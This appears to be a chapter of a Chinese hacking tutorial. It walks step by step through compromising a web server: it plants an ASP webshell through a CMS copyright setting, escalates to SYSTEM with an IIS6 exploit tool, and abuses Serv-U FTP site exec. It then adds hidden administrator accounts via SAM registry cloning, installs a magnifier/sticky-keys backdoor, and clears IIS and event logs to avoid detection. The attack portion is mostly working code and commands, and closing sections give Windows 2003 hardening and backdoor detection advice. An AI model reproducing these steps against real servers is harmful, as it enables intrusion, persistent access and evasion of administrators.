MY 动力管理系统相信很多朋友都玩过吧？但是它的后台可是有点 BT。虽然有数据库备份但是并不支持自定义路径，而且数据库里还有 `<% loop <%` 不能闭合，所以数据库备份几乎是没什么用了。不过以前有朋友提出可以先恢复再备份的方法，不过我没测试成功。

## 菜鸟轻松学攻防图

这里教大家的方法就是配置文件插马。至于怎么进到后台我就不说了，是注射也好，下载默认数据库也好，总之能进后台就 OK 了。进到后台后我们会发现在常规设置那里有个网站信息配置，点开它，如图1。

我们看到版权信息那里写着“版权所有 Copyright? 2003 `<a href='http://www.asp163.net'>动力空间</a>`”，这是系统自带的。因为这里没有限制我们输入的字符长度，所以我们就可以在这里传一个类似小马的东西。注意是类似，而不是小马（编辑点评：其实就是个小马。），直接在版权信息那里进行替换，前面要加上它原有的语句，替换代码如下：


```asp
版权所有 Copyright? 2003 <a href='http://www.asp163.net'>动力空间</a>
' 版权信息
if Request("xiaoxin")="520" then
  dim allen,creat,text,thisline,path
  if Request("creat")="yes" then
    Set fs = CreateObject("Scripting.FileSystemObject")
    Set outfile = fs.createTextFile(server.mappath(Request("path")))
    outfile.WriteLine Request("text")
    Response.write "获咯"
  end if
  Response.write "<form method='POST' action='"&Request.ServerVariables("URL")&"?xiaoxin=520&creat=yes'>"
  Response.write "<textarea name='text'>"&thisline&"</textarea><br>"
  Response.write "<input type='text' name='path' value='"&Request("path")&"'>"
  Response.write "<input name='submit' type='submit' value='ok'></form>"
  Response.end
end if
```


然后保存一下。千万注意，这个时候千万别跳转任何页面。直接在 IE 地址栏内将 `admin/Admin_Login.asp` 替换成 `inc/config.asp?xiaoxin=520`。有人会问为什么？因为在上边版权信息内的代码，是一段生成程序，利用 `inc/config.asp` 相关文件信息所写。

进入这个页面之后会发现：这是啥玩意？好像一个小马。那你就当小马用好了，上面写你的 ASP 木马代码，下面写上路径。如图2、3。

怎么样？SHELL 拿到了吧。这里有一点要注意，虽然 SHELL 是拿到了，但是这个时候网站也挂掉了，我们需要进到 SHELL 里找到 `config.asp` 文件，把里面的“荭帆”去掉，就 OK 啦。

其实不光是 MY 动力管理系统，动易文章系统以前也存在这个问题：在站长信箱那里写入 `"%<>%eval(request("a"))%<>%"`，然后直接连接 `inc` 目录下的 `config.asp` 就可以了。因为很多网站信息都是写入在 `config.asp` 里的，有空各位朋友可以自己去测试一下（编辑：如果读者朋友懂 ASP，可以自己研究一些 ASP 程序是否在后台配置文件用到 FSO，这样基本上就是把配置信息写到了 ASP 文件里了），修改原有程序安装后门。

##### 3.4.5 一句话木马的防范

要防范“一句话木马”可以从两方面进行。首先是要隐藏网站的数据库，不要让攻击者知道数据库文件的链接地址。这就需要管理员在网页程序中查找暴库漏洞，在数据库连接文件中加入容错代码等，具体的防暴库方法在这里就不作过多讲解了。

其次就是要防止用户提交的数据未过滤漏洞，对用户提交的数据进行过滤，替换一些危险的代码等。例如中国站长联盟网站在出现该漏洞后已经对网页程序进行了修补，插入的 ASP 代码中的《、》和 `"` 等字符会被网页程序转换成其它字符，致使服务端代码无法正常执行。

只要做好这两方面的安全工作，“一句话木马”虽然无孔不入，但是面对这样的网站系统也是无可奈何的了。

## 3.4.6 webshell 提权

话说我们得到 shell 之后，按道理说我们的这次行动就算 OVER 了。可是看看手中的 shell，有了那么一点野心，我们要拿下服务器。说干咱们就开始干。在 shell 里面收集下服务器的信息，首先个人习惯先看看组件是否支持，点击“主机信息--组件支持”（如图4）。


图4

可以看见其中的 `wscript.shell` 并没有被禁用，说明我们有一定几率（有时候是误报，其实并不支持 `wscript.shell` 组件）可以执行 `cmd` 命令。能够执行 `cmd` 命令了，那么我们距离拿到服务器又近了一步。然后继续收集服务器信息，个人习惯是去看看服务器探测（PS：不是全部 shell 都带了这个功能，只是以我的这个 shell 来说明，后面会打包给大家）。

一般这里显示的是网络探测、特殊端口探测、系统软件探测、系统设置探测、服务器弱点探测。这里并不是全部都会显示出来，因为其中的设置使得我们的权限不足，因而有些探测不出来。现在看看我们的这个。

###### 网络探测

网卡0的序列为：

- 默认网关无法读取或没有设置
- 默认 DNS 无法读取或没有设置
- 没有 TCP/IP 筛选

【特殊端口探测】

- Telnet 端口：
- Terminal Service 端口为：3389
- PcAnywhere 端口为：无法获取，请确认主机是否安装 pcAnywhere

【系统软件探测】

- 系统软件支持
- MSSQL 数据库服务：支持
- MySQL 数据库服务：支持

---

系统当前路径变量：

```text
%SystemRoot%\system32
%SystemRoot%
%SystemRoot%\System32\Wbem
D:\mysql\bin
C:\Program Files\Microsoft SQL Server\80\Tools\Binn\
C:\Program Files\Microsoft SQL Server\90\Tools\binn\
C:\Program Files\Microsoft SQL Server\90\DTS\Binn\
C:\Program Files\Microsoft SQL Server\90\Tools\Binn\VSShell\Common7\IDE\
C:\Program Files\Microsoft Visual Studio 8\Common7\IDE\PrivateAssemblies\
```

继续收集，点击“系统服务-用户账号”，这里也是一样的，不再复述。权限严格的话啥也没有，但是我们 RP 不错，居然出来了（如图5）。

继续看看开启的端口，点击端口扫描器，添加我们常用的端口，扫描结果如下：

| 项目 | 结果 |
|---|---|
| 指定文件夹根目录 | `C:\Documents and Settings\All Users\` 可读，不可写 |
| 文件夹 | `C:\Documents and Settings\All Users\Application Data` 可读，可写 |
| 文件夹 | `C:\Documents and Settings\All Users\Documents` 可读，可写 |

图5

```text
127.0.0.1:21    关闭
127.0.0.1:25    关闭
127.0.0.1:80    开放
127.0.0.1:110   关闭
127.0.0.1:1433  开放
127.0.0.1:1723  关闭
127.0.0.1:3306  关闭
127.0.0.1:3389  开放
127.0.0.1:4899  关闭
127.0.0.1:5631  关闭
127.0.0.1:43958 开放
127.0.0.1:65500 关闭
```

| WEB 服务器版本 | Microsoft-IIS/6.0 |
|---|---|
| Scripting.FileSystemObject | √ |
| wscript.shell | √ |
| ADOX.Catalog | √ |
| JRO.JetEngine | √ |
| Scripting.Dictionary | √ |
| Adodb.Connection | √ |
| Adodb.Stream | √ |

图6

由于之前知道是支持 WS 组件的，我们来看看可读写目录。经过探测，发现（如图6）：

然后我们上传个 `cmd` 到可读写目录 `C:\Documents and Settings\All Users\Application Data` 里面去，保存为 `cmd.db`。然后返回到执行 `cmd` 的界面，在 `cmd` 路径里面写入 `C:\Documents and Settings\All Users\Application Data\Cmd.db`，然后试着执行 `set` 这个命令，成功回显，表示可以运行 `cmd`，如图7：

在看看服务器是不是外网，内网的比较悲催，还有转发什么的，麻烦得很。输入 `ipconfig` 可以看到回显：


图7

然后我们继续执行 `systeminfo` 这个命令，收集本机信息，比如操作系统、机器名称、制造商、版本、CPU 数量、服务器型号、补丁信息等。我们需要注意的是操作系统、CPU 数量、补丁信息。操作系统知道了方便我们提权，CPU 数量表示服务器性能，而补丁信息对我们比较重要，提权差不多就是需要它。执行 `systeminfo` 后收集到的信息有：

```text
OS 名称: Microsoft(R) Windows(R) Server 2003, Enterprise Edition
OS 版本: 5.2.3790 Service Pack 2 Build 3790
处理器: 安装了 4 个处理器。
[01]: x86 Family 15 Model 4 Stepping 3 GenuineIntel ~3600 Mhz
[02]: x86 Family 15 Model 4 Stepping 3 GenuineIntel ~3600 Mhz
[03]: x86 Family 15 Model 4 Stepping 3 GenuineIntel ~3600 Mhz
[04]: x86 Family 15 Model 4 Stepping 3 GenuineIntel ~3600 Mhz
修补程序: 安装了 239 个修补程序。
[190]: KB952004 - Update
```

这里可以知道 PR 提权已经没有希望了，它的补丁被打上了。给出两个常见提权补丁信息：PR 对应补丁号 `KB952004`，巴西烤肉对应补丁号 `KB956572`。

然后继续执行 `net start`，这个是显示本机开启的服务信息，可以查询本机开启的服务器信息，然后进一步收集利用。列出一些我们可利用提权信息的服务。

已经启动以下 Windows 服务：

```text
Serv-U FTP 服务器
SQL Server (MSSQLSERVER)
SQL Server FullText Search (MSSQLSERVER)
Terminal Services
Windows Firewall/Internet Connection Sharing (ICS)
Windows Management Instrumentation
Wireless Configuration
World Wide Web Publishing Service
```

##### 3.4.7 给服务器安装后门以及防御

从以上收集到的信息有以下几点：

- 1. 服务器版本 WIN2003，WEB 服务版本为 IIS6，是外网。
- 2. 服务支持 ASP、ASP.NET。当 ASP 不支持 WS 组件的时候可以试试 ASP.NET，在 ASP.NET 环境下不需要 WS 组件支持。
- 3. 端口：服务器开启了 3389、1433、43958，开启了远程登录、MSSQL 和 Serv-U，其中找到 SA 密码后可以选择 MSSQL 提权。
- 4. 服务器安装有 Serv-U、360 杀毒、MSSQL2005、Microsoft Visual Studio 2005。其中 Serv-U 在默认密码情况下可以尝试提权。
- 5. 补丁信息：打上了 PR 补丁，2003 溢出和 IIS6 的补丁暂时未知。
- 6. 开启的服务有 Windows Firewall 和 Terminal Services，就是防火墙和远程登录，省去了我们还要去开启。不一定可以远程连接，因为有防火墙的缘故。

好了，收集完信息，我们开始提权。我首先选择了 IIS6，因为这个比较犀利，才出来的，80% 实现秒杀。依旧在 `cmd` 路径里面输入：`C:\Documents and Settings\All Users\Application Data\Cmd.db`，在执行一栏输入“iis6 所在目录”“执行的命令”，点击执行：

```text
"C:\Documents and Settings\All Users\Application Data\iis6.txt" "whoami"

[IIS6Up]-->Found token SYSTEM
[*]Running command with SYSTEM Token...
[*]Command: whoami
[+]Done, command should have ran as SYSTEM!
nt authority\system
```

成功获取了 system 权限，然后就是继续添加用户之类。原本我以为这样就 OK 了，但是事实与理想截然不同，我都囧。当我满怀信心去执行 `net user username password /add`，也就是 `"C:\Documents and Settings\All Users\Application Data\iis6.txt" "net user hacc hackerxfile!@# /add"` 的时候，回显是：

```text
Data\iis6.txt" "net user hacc hackerxfile!@# /add"

[IIS6Up]-->Found token SYSTEM
[*]Running command with SYSTEM Token...
[*]Command: net user hacc hackerxfile!@# /add
[+]Done, command should have ran as SYSTEM!
```

然后查看用户 `net user` 的时候并没有发现我们添加的 hacc，于是果断换命令执行 `net1 user username password /add`，也就是 `"C:\Documents and Settings\All Users\Application Data\iis6.txt" "net1 user hacc hackerxfile!@# /add"`，回显是：

```text
[IIS6Up]-->Found token SYSTEM
[*]Running command with SYSTEM Token...
[*]Command: net1 user hacc hackerxfile!@# /add
[+]Done, command should have ran as SYSTEM!
```

然后查看 `net user` 也没有发现添加的 hacc，都闷了。然后又上传了个 `net2`，结果也是一样。再试 `net1`，但是 RP 并没有我想的那么好，在执行 `"C:\Documents and Settings\All Users\Application Data\iis6.txt" "C:\Documents and Settings\All Users\Application Data\net1 user hacc hackerxfile!@# /add"` 的时候依旧显示 `[+]Done, command should have ran as SYSTEM!`。

可查看就是没有添加上去。然后在盘里翻了下，找到个无 net 添加用户的小工具。查看说明是直接调用 API 来实现用户添加（图8）：

`api.txt` 列出当前的账户和用户组。  
`api.txt username password group` 就是 `api.txt` 的用户名、密码、组，直接执行添加用户。


然后本地测试成功，于是马上上传上去，调用执行发现在没有添加参数的时候可以列出当前用户。可是悲剧地发现第一次调用可以列出 user list 和 group list，可是第二次执行添加用户的时候：

`C:\Documents and Settings\All Users\Application Data\iis6.txt "C:\Documents and Settings\All Users\Application Data\api.txt hacc hackerxfiles!@#$ administrators"`

发现回显如下：

```text
[IIS6Up]-->Found token SYSTEM
[*]Running command with SYSTEM Token...
[*]Command: C:\Documents and Settings\All Users\Application Data\api.txt hacc hackerxfiles!@#$ administrators
[*]Couldn't run command, try again!

Couldn't run command，不可以执行命令！！有点悲催了...
```

Data 一看，我都闷了，`api.txt` 被杀了。找不到免杀的，悲催了，于是继续看看硬盘里有啥，找啊找找到了 VBS。看了下自己都忘记是啥时候整理的了，于是翻出来看看：

- 1. `Shell.Users.vbs` 用法：`cscript Shell.Users.vbs hacc hackerxfiles!@#$`，就能添加账号为 hacc、密码为 hackerxfiles!@#$ 的管理员，可突破无 `NET.EXE` 情况（修改里面的用户和密码）。其中 `Shell.Users.vbs` 的代码：

```vbscript
Set o=CreateObject("Shell.Users")
```

```vb
Set z=o.create("hacc")
z.changePassword "hackerxfiles!@#$", ""
z.setting("AccountType")=3
```

- 2. `WSCRIPT.NETWORK.vbs` 用法：`cscript WSCRIPT.NETWORK.vbs hacc hackerxfiles!@#$` 就能添加账号为 `hacc`、密码为 `hackerxfiles!@#$` 的管理员，可突破无 `NET.EXE` 情况。其中 `WSCRIPT.NETWORK.vbs` 的代码如下：

```vb
struser=wscript.arguments(0)
strpass=wscript.arguments(1)

set ip=createObject("WSCRIPT.NETWORK")
oz="WinNT://"&ip.ComputerName
Set ob=GetObject(oz)
Set oe=GetObject(oz&"/Administrators,group")
Set od=ob.create("user",struser)
od.SetPassword strpass
od.SetInfo
Set of=GetObject(oz&"/" & struser & ",user")
oe.Add(of.ADsPath)

For Each admin in oe.Members
  if struser=admin.Name then
    Wscript.echo struser & " 建立成功!"
    wscript.quit
  end if
Next

Wscript.echo struser & " 用户建立失败!"
```

于是把第一个保存为 `2.vbs`，然后执行 `"C:\Documents and Settings\All Users\Application Data\iis6.txt" "cscript C:\Documents and Settings\All Users\Application Data\2.vbs"` 得到回显：

```text
[*]Command: cscript C:\Documents and Settings\All Users\Application Data\2.vbs
[+]Done, command should have ran as SYSTEM!
Microsoft (R) Windows Script Host Version 5.6
```

版权所有 (C) Microsoft Corporation 1996-2001。保留所有权利。貌似表示成功了，去执行 `net user` 果然发现 `hacc` 这个用户，然后查看下 `net user hacc`：（图9）

然后 `net stop sharedaccess` 关闭防火墙再连 3389，顺利地远程登录成功。（图10）


图9

后来上 ASPXSPY 的时候发现 Serv-U 的密码是没修改的，但是 ASP 里面的添加成功与否都显示添加成功，不可靠啊，于是直接奔向 ASPXSPY 的 Serv-U 提权，直接显示


图11

登录进去了，默认的账号和密码，然后我试着执行命令，但是没有成功，想了半天就反弹在本地来执行了。先本地监听着 1214 端口，把远程的 43958 端口转移到我的 1214 端口：（图11）

然后本地打 `ServUAdmin.exe`，其他的保持默认，点击连接，然后等待 lcx 里面的数据流了，看着刷的一大片数据的到来，心情激动啊。（图12）


图12

添加一个用户，我们赋予新的用户以 C 盘的全部控制权，然后再去使用命令行下 FTP 去连接 `ftp 118.123.x.x`，输入我们刚刚添加的账户和密码，成功进入，然后分别执行下面的语句：（图13）

```text
quote site exec net user hacc hackerxfiles!@#$ /add
quote site exec net localgroup administrators hacc /add
```

添加一账号为 `hacc`、密码为 `hackerxfiles!@#$` 的用户，回显 `200 EXEC command successful (TID=33)`。  
`quote site exec net localgroup administrators hacc /add` 把 `hacc` 添加进入 `administrators` 组，回显 `200 EXEC command successful (TID=33)`。然后远程登录：（图14）


图13


图10


图14

至此服务器拿下。给服务器安装后门，在拿到服务器后，相信大家都会想常驻服务器的吧，那么我们该怎么办呢？

这里我们就会想到，添加服务器管理用户，但是常规的会被管理员发现，我们如何才能逃避过一般管理员的法眼呢？

###### 创建隐藏账户

我们是在别人的机器上搭建的服务，因此隐藏性对于我们来说非常重要。而 VPN 默认是使用 Windows 内置账户认证的，因此我们必须创建一个具有连接 VPN 权限的账户。有朋友说可以通过已经存在账户进行设置允许 VPN 连接，虽然这样可以，但是隐藏性还是不够好。

首先添加一个隐藏账户：

```bat
# 账户后$表示隐藏账户，在cmd下看不到，在用户管理还是看得到
net user xiaoc$ 123123 /add

# 将xiaoc$添加到本地管理员组
net localgroup administrators xiaoc$ /add
```

找到“本地用户和用户组”管理，选择 `xiaoc$` 这个用户，选择属性，打开对话框选择“拨入”标签，勾选允许访问，也可以指定静态 IP，必须在上面 VPN 设置的静态地址池范围内。如图15；右击选择管理，并且将远程 VPN 访问权限赋予。


然后到注册表，“Win+R”输入 `regedit` 运行注册表，找到键值：`HKEY_LOCAL_MACHINE\SAM\SAM`。此时如果 SAM 下没有键值，说明当前用户的 SAM 权限没设置。我们在 SAM 上单击右键，选择“权限”，给当前账户添加“完全控制”的权限，如图16。


同时添加当前用户 `xiaoc$` 的权限也为完全控制，就会生成一个新的字符串了。关闭注册表，重新打开注册表，找到键值：

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names
```

找到用户 `xiaoc$` 的键值为 `0x3eb`，另外查看下 `administrator` 的键值为 `0x1f4`，按照这个标识在上一级对应键值，分别将这 2 个账户导出 `000001F4` 和 `000003EB` 为 reg 格式，保存为 `admin.reg` 和 `xiaoc.reg`。如图17。


打开 `admin.reg` 将其中的 F 部分复制到 `xiaoc.reg` 中的 F 部分并覆盖。当然你也可以先在注册表中覆盖，然后再导出。如图18。


图18

这样是为了让 `xiaoc` 这个用户具有管理员权限。到这里的一些思想基本上是网络中的一些经验。但是我发现仅仅导出 2 个然后再导入并无法创建隐藏账户，经过测试发现，同时必须导出：


下的 `xiaoc$` 这个键值。关闭后执行命令 `net user xiaoc$ /del` 删除掉这个用户。然后导入的时候分别点击这 3 个 reg 导出文件并确认导入。这样以后再输入 `net user`，看不到 `xiaoc$` 这个账户了；同样地打开“我的电脑”右击管理查看“本地用户和用户组”也看不到这个账户了。呵呵，无敌了。这样就可以创建隐藏的无敌账号，同时具有管理员权限和 VPN 连接。至于如何本地创建 VPN 连接，不是本次的主要内容我就不说了，不懂自己 google 下。

###### Shift 和放大镜后门

有的管理员管理经验比较丰富，会用 `net localgroup administrators` 或者在注册表来看系统管理员。这样的话，只要是在 administrators 组的用户都会暴露无遗，我们的隐藏用户也就暴露在管理员眼中，服务器就绝对没了。那我们应该怎么才能让服务器长久地存在呢？

- 1. 上远控木马
- 2. 就是 Shift 和放大镜了

要说 2011 年最流行的服务器后门是什么，答案肯定是“Shift 后门”。黑客在服务器做好“Shift 后门”后，即使其创建的账户被删，他只要在下次登录服务器的时候，在登录界面连续按下 5 次 Shift 键，即可重新创建一个账号。但越流行的后门其寿命也越短，现在网站服务器管理员都会对此进行检测，所以现在的“Shift 后门”已经没有什么实际意义了。其实，Windows 2003 系统中还有一个程序非常适合用来做后门，那就是“放大镜”程序。

## “Shift后门”的原理

要说最隐藏的服务器后门，肯定需要具备以下几个特点：无进程、无服务、无新建账户、不被杀毒软件查杀。而最近很流行的“Shift 后门”就都符合上面这些特点。那么什么是“Shift 后门”呢？我们可以在自己的电脑上连续 5 次 Shift 键，这时会弹出一个“粘滞键属性”窗口。粘滞键功能是专为同时按下两个或多个键有困难的人而设计的。当快捷方式需要组合键时，例如 CTRL+P，粘滞键可以让我们一次只按一个键，而不是同时按两个键。最重要的是，粘滞键可以在没有登录 Windows 的时候就运行，这样一个漏洞就产生了。

黑客可以将后门程序替换掉原有的粘滞键程序，这样的后门在服务器中是非常隐蔽的，黑客想要进入服务器的话只需在远程桌面中运行粘滞键程序，就可以触发后门了。“放大镜后门”的制作原理和“Shift 后门”相似，由于现在还不流行，所以危害很大。

####### “放大镜后门”的制作

首先我们在桌面上新建一个文本文档，内容如下：（图19）

```bat
net user test 123456 /add
net localgroup administrators test /add
c:\windows\system32\agnify.exe
```

####### 后门代码

第一句命令的作用是在系统中建立一个名为 `test` 的账户，第二句命令是将刚才建立的 `test` 账户提升为系统管理员，最后一句命令的意思是运行 `agnify.exe` 程序。`agnify.exe` 是啥？其实就是被改了名的放大镜程序，这样在执行后门后，放大镜程序还是会运行，避免管理员怀疑。输入完毕后我们将该文本文档的后缀名改为 `bat`，这样这个文件就成了一个可执行文件。（图20）


图19

####### 配置生成选项

由于 bat 程序在运行的时候会出现一个命令提示符窗口，这样会引起管理员的怀疑，因此我们需要将 bat 文件转换为 exe 程序，这样在运行的时候就能神不知鬼不觉了。这里我们需要用到一款名为“bat2exe”的小软件，运行后我们点击“打开”按钮选择需要转换的批处理文件，然后点击“选项”按钮，选中其中的“魅影应用程序”，点击“确定”，最后点击“生成”按钮将其保存为 `magnify.exe` 即可。


图20

“放大镜”程序所对应的系统文件是 `C:\WINDOWS\system32\magnify.exe`，我们将其改名为 `nagnify.exe`，然后复制刚才生成的 `magnify.exe` 文件到 `C:\WINDOWS\system32` 目录以及 `C:\WINDOWS\system32\dllcache` 目录。OK，大功告成。

让我们来体验一下这个“放大镜”后门的效果到底如何。注销账户后来到系统登录界面，我们按下“Win+U”键，这时出现一个“辅助工具管理器”对话框，我们选中其中的放大镜，点击“启动”按钮，“放大镜”程序就正常运行了，但此时我们的后门账户也已经建立了，直接输入账户和密码进行登录吧。（图21）


图21

####### 运行“放大镜”触发后门

####### 防范措施

进入 `%Windir%\system32` 查看 `magnify.exe` 的文件图标是否是原来的放大镜图标，如果不是的话极有可能被植入了放大镜后门。当然，有的时候攻击者也会将其文件图标更改为和原放大镜程序图标一样。此时我们可以查看 `magnify.exe` 文件的大小和修改时间，如果这两样有一项不符就比较可疑了。我们也可以先运行 `magnify.exe`，然后运行 `lusrmgr.msc` 查看是否有可疑用户。如果确定服务器被放置了放大镜后门，首先要删除该文件，然后恢复正常的放大镜程序。当然，我们也可以做得更彻底一些，用一个无关紧要的程序替换放大镜程序。甚至我们也可以以其人之道还治其人之身，构造一个 `magnify.exe`，通过其警告攻击者或者进行入侵监控和取证。

补充：与放大镜后门类似的还有“粘滞键”后门，即按下 SHIFT 键五次可以启动粘滞键功能，其利用和防范措施与放大镜后门类似，只是将 `magnify.exe` 换成了 `sethc.exe`。

###### 日志清理

当然干完坏事要懂得擦 PP 了，不然让别人请你喝茶就不好了。

可以选用的工具很多，但是各有好坏。在常见几款工具中大部分都是删除所有日志。我们进行渗透主要留下的记录有 IIS 和 3389 连接，当然还可能有其他记录。删除所有日志恰恰是反向告诉管理员服务器被人入侵了，当然对于一些“管理员”我就不说了（只能说你运气好）。这里介绍工具有 MT，这款工具功能比较多，可以查看帮助。清理日志方法就是 `MT -clog all`，这种方法并不好，很容易引起管理员注意。推荐使用工具 `cleanIISlog.exe`，这款工具可以指定 IP 对 IIS 日志进行清理。不然管理员一发现日志是空就知道了。清理 IIS 日志后，还要记得清理系统日志：我的电脑——管理——系统工具——事件查看器，清理掉自己的 3389 登录记录和其他操作记录就可以了。

#### 3.5 系统安全设置

前面讲了很多关于建站程序的安全攻防，单靠建站程序安全是远远不够的，我们还要考虑到主机系统的安全。当主机出了安全问题，这个主机上面的所有站点也将不费吹灰之力就可以被拿下，从一台服务器内部渗透其内部站点可以说就像改文件名那么简单。下面我就拿 Windows 2003 为例为大家讲解服务器安全系统的配置。

##### 基本安全设置

我们在安装系统的时候要确保系统必须要有两个或两个以上的系统盘，方便备份数据与分类数据，并且要使用 NTFS 格式，因为 NTFS 分区具有较高的稳定性及安全性，它在使用中不容易产生碎片，能对用户操作记录进行记录，能够更好地查看非法入侵者的踪迹；它对用户权限限制也非常严格，能针对每一个用户设置不同权限。设置方法有两种：一种是我们选择所需要设置的盘符，点击右键选择格式化选项，在文件系统选择中选择 NTFS，点击开始就可以了，如图1。


图1

当我们所需要转换的盘中有重要文件，我们也可以尝试使用命令提示符的方式进行转换。比如我的 D 盘中存有重要文件，则我们打开命令提示符，在命令提示符中输入 `convert D: /FS:NTFS` 按 Enter 键，它会提示我们输入当前 D 盘的卷标，我当前的卷标是 `SOFTWARE`，键入之后回车，它就自动将 D 盘转换成 NTFS 分区，如图2所示。


图2

##### 权限设置

文件存放一定要注意区分，在这里我分为三个盘，分别是 C、E、F 盘，C 盘为系统盘、F 盘为常用工具盘，E 盘为网站。我们打开 C 盘的属性窗口并切换到“安全”选项卡，只给 `Administrators` 和 `System` 完全控制权限，其余都删除掉，F 盘设置也与其雷同，如图3所示。

E 盘则存放网站，我们也是给 `Administrators` 和 `System` 完全控制权限，还要给 `Everyone` 读取权限，如图4所示。

我们在系统盘中找到以下文件并设置只允许 `administrators` 访问：

```text
net.exe
net1.exe
cmd.exe
tftp.exe
netstat.exe
regedit.exe
at.exe
attrib.exe
cacls.exe
format.com
```

系统要做到精简，只追求安全，勿安装 QQ、搜狗等输入法或娱乐工具，这往往会给黑客提权打开方便之门。

##### 注册表设置

- 1. 重要目录进行隐藏

我们在运行窗口中键入 `regedit` 按下 Enter 键，我们依次打开 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`，鼠标右击 `CheckedValue` 选择修改，把它的数值改为 `0`，如图5所示。

- 2. 禁止响应 ICMP 路由通告报文

我们依次打开 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface`，在右边点击右键选择“新建”->“DWORD 值”，并命名为 `PerformRouterDiscovery`，值设为 `0`，如图6所示。


图3


图4


图5


##### 3. 禁止 IPC 空连接

打开注册表 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\LSA`，将 `RestrictAnonymous` 的值改为 `1` 即可。

最后就是修改 TTL 值，在 Ping 命令中我们已经讲过了，大家可以回去翻阅一下。

##### 组件安全设置

我们在提权的时候首先看的是有没有 `WScript`、`Shell`、`Shell.Application` 组件，如果有的话，拿下最高权限就方便了许多。首先我们要把这两个组件卸载掉。我们在“运行”对话框中输入：`regsvr32 /u wshom.ocx` 回车，再输入 `regsvr32 /u shell32.dll` 回车。一定要先关闭 IIS 再进行卸载。如果觉得这样麻烦的话，可以将以下代码直接保存为 `del.bat` 并运行：

图6

```bat
regsvr32 /u C:\WINDOWS\System32\wshom.ocx
del C:\WINDOWS\System32\wshom.ocx
regsvr32 /u C:\WINDOWS\System32\shell32.dll
del C:\WINDOWS\System32\shell32.dll
```

除了删除之外，我们还可以选择将组件的名称改掉。

图7

##### WScript、Shell 组件修改

我们将注册表的 `HKEY_CLASSES_ROOT\WScript.Shell\` 与 `HKEY_CLASSES_ROOT\WScript.Shell.1\` 中的 `WScript.Shell` 改为其他名字，比如 `WScript.Shell_Hack` 和 `WScript.Shell.1_Hack`。同时也需要将 `HKEY_CLASSES_ROOT\WScript.Shell\CLSID\` 与 `HKEY_CLASSES_ROOT\WScript.Shell.1\CLSID\` 项目的 CLSID 值也改一下，如图7所示。

`Shell.Application` 组件的修改方法也与 `WScript.Shell` 组件修改相同，要修改的位置如下：

```text
HKEY_CLASSES_ROOT\Shell.Application\
HKEY_CLASSES_ROOT\Shell.Application.1\
HKEY_CLASSES_ROOT\Shell.Application\CLSID\ 项目的值
HKEY_CLASSES_ROOT\Shell.Application.1\CLSID\ 项目的值
```

我们也可以直接保存下列代码为 `xiu.reg`，并打开导入即可：

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\CLSID\{13709620-C279-11CE-A49E-444553540001}]
@="Shell Automation Service"

[HKEY_CLASSES_ROOT\CLSID\{13709620-C279-11CE-A49E-444553540001}\InProcServer32]
@="C:\\WINDOWS\\System32\\shell32.dll"
"ThreadingMode"="Apartment"

[HKEY_CLASSES_ROOT\CLSID\{13709620-C279-11CE-A49E-444553540001}\ProgID]
@="Shell_Application_hack.1"

[HKEY_CLASSES_ROOT\CLSID\{13709620-C279-11CE-A49E-444553540001}\TypeLib]
@="{50a7e9b0-70ef-11d1-b75a-00a0c90564fe}"

[HKEY_CLASSES_ROOT\CLSID\{13709620-C279-11CE-A49E-444553540001}\Version]
@="1.1"

[HKEY_CLASSES_ROOT\CLSID\{13709620-C279-11CE-A49E-444553540001}\VersionIndependentProgID]
@="Shell_Application_hack"

[HKEY_CLASSES_ROOT\Shell.Application_hack]
@="Shell Automation Service"

[HKEY_CLASSES_ROOT\Shell.Application_hack\CLSID]
@="{13709620-C279-11CE-A49E-444553540001}"

[HKEY_CLASSES_ROOT\Shell.Application_hack\CurVer]
@="Shell_Application_hack.1"
```

##### 审核策略

什么是安全策略？每当用户在系统中执行了某个操作，安全审核日志就会自动记录当前所操作的内容。打个比方，比如我输入密码正确了，安全日志就会自动记录；输入错误了也会自动记录。当系统被黑客入侵时，它可以作为重要证据，因此我们要保存好审核策略中的信息。

好了，我们现在在运行窗口中输入 `gpedit.msc`，打开“组策略”，依次选择：

`计算机配置 -> Windows 设置 -> 安全设置 -> 账户策略 -> 账户锁定策略`

将账户设为“三次登录无效”、“锁定时间为 30 分钟”、“复位锁定计数设为 30 分钟”。之后我们把本地策略中的审核策略打开，设置如下：

- 审核策略更改：成功，失败
- 审核登录事件：成功，失败
- 审核对象访问：失败
- 审核对象跟踪：成功，失败
- 审核目录服务访问：失败
- 审核特权使用：失败
- 审核系统事件：成功，失败
- 审核账户登录事件：成功，失败
- 审核账户管理：成功，失败

如图8、图9所示。

一个聪明的黑客，入侵完之后肯定还会“擦屁股”，所以我们还要防止安全日志被清除。我们可以把日志藏到某个地方。我们在“我的电脑”打开“管理”对话框，选择“系统工具 -> 事件查看器”就可以看到我们的日志了。我们选择一个事件，点击右键查看它的属性，可以得知日志保存在 `C:\WINDOWS\System32\config\AppEvent.evt` 目录中。此时黑客只要简单构造一下就可以把日志清除了，如图10、11所示。

在这里是更改不了保存路径的。我们打开注册表，选择 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog\Application`，在这个项目中找到 `File` 这个键，这里就保存着我们的目录。默认数值为 `%SystemRoot%\System32\config\AppEvent.evt`，也就是存放在系统目录下面。我们可以更改为 `D:\hash\1234\config\AppEvent.evt`，藏得越深越好，如图12所示。

##### IIS 安全防护工具

IIS 是当前最为流行的 Web 服务器之一，提供了强大的 Internet 和 Intranet 服务。在这里我给大家介绍一款工具——啊D保护盾。啊D最新的作品，专为 IIS 设计的一个主动防御保护软件，以内外保护的方式防止网站和服务器被入侵。在正常运行各类网站的情况下，按“越少的功能，服务器越安全”的理念而设计，限制了常见的入侵方法，让服务器更安全。

我们从 `http://security.d99net.net/` 中下载最新版的啊D保护盾。下载后解压，找到 `D_Safety_Setup.exe` 就是安装文件了。我们点击安装，一路点击 Next 就可以了。我们启动啊D保护盾，可以看到主界面如下图所示（图13）。

图13

